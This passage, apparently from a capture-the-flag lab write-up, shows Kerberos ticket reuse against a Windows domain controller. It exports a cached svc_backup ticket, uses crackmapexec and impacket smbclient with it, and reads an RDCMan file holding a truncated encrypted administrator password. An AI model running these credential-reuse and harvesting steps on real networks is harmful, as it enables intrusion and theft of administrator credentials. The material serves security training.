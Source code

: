 ```bash
```
So we have the svc_backup ticket

```bash
export KRB5CCNAME='krb5cc_990001135'

klist

Ticket cache: FILE:krb5cc_990001135
Default principal: svc_backup@KLENDATHU.VL

Valid starting       Expires              Service principal
07/30/2024 16:06:29  07/31/2024 02:06:29  krbtgt/KLENDATHU.VL@KLENDATHU.VL
        renew until 08/06/2024 16:06:29
```
```bash
cme smb 10.10.245.69 --use-kcache

SMB         10.10.245.69    445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.245.69    445    DC1              [+] KLENDATHU.VL\svc_backup from ccache
```
```bash
smbclient.py klendathu.vl/svc_backup@dc1.klendathu.vl -k -no-pass -debug

[+] Impacket Library Installation Path: /root/.pyenv/versions/3.11.9/lib/python3.11/site-packages/impacket
[+] Using Kerberos Cache: krb5cc_990001135
[+] SPN CIFS/DC1.KLENDATHU.VL@KLENDATHU.VL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/KLENDATHU.VL@KLENDATHU.VL
[+] Using TGT from cache
[+] Trying to connect to KDC at KLENDATHU.VL:88
```
Then we can go in 'HomeDirs/JENKINS' :

```console
# ls
drw-rw-rw-          0  Sat Apr 13 03:32:21 2024 .
drw-rw-rw-          0  Thu Apr 11 02:58:10 2024 ..
-rw-rw-rw-     101234  Sat Apr 13 03:32:11 2024 AppData_Roaming_Backup.zip
-rw-rw-rw-       1077  Fri Apr 12 06:08:35 2024 jenkins.rdg
```
Unzip the first file and cat the second file which returned this :

```xml
cat jenkins.rdg
﻿<?xml version="1.0" encoding="utf-8"?>
<RDCMan programVersion="2.93" schemaVersion="3">
  <file>
    <credentialsProfiles>
      <credentialsProfile inherit="None">
        <profileName scope="Local">KLENDATHU\administrator</profileName>
        <userName>administrator</userName>
        <password>AQ[...]ShAxQ==</password>
        <domain>KLENDATHU</domain>
      </credentialsProfile>
    </credentialsProfiles>
    <properties>
      <expanded>True</expanded>
      <name>jenkins</name>
    </properties>
    <server>
      <properties>
        <name>dc1.klendathu.vl</name>
      </properties>
```